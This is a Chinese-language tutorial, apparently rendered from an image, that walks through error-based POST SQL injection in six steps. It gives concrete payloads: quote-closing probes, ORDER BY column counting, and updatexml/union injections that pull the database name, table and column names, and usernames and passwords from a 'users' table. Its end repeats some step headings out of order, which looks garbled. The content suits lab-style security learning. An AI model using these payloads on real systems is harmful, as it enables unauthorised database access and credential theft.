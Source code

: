 
---


---


## 一、POST（报错）SQL注入基本步骤：

> 
<h3> 2.1、第一步：判断是否存在SQL漏洞</h3>
在输入框中填入一些闭合的符号，看页面是否异常
如： ’        "          ')          ")
当页面发生错误，则证明闭合有效
有时单双引号闭合后，还要考虑括号个数
<hr/>
<h3>2.2、第二步：判断字段数</h3>
例如：
”) order by 3#
当回显正确的时候，或无报错，就判断出字段数

<hr/>
<h3>2.3、第三步：查询当前数据库</h3>
例如：
“) union select 1,updatexml(1,concat(0x7e,(select database()),0x7e),1)#
<hr/>
<h3>2.4、第四步：查表名</h3>
例如：
”) union select 1,updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema='security'),1,31),0x7e),1)#
<hr/>
<h3>2.5、第五步：查字段</h3>
例如：
“) and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'),1,31),0x7e),1)#
<hr/>
<h3>2.6、第六步：查数据</h3>
例如：
”) and updatexml(1,concat(0x7e,substr((select group_concat(username,password) from users),1,31),0x7e),1)#


### 2.2、第二步：判断字段数

---


### 2.4、第四步：查表名

---


### 2.6、第六步：查数据

---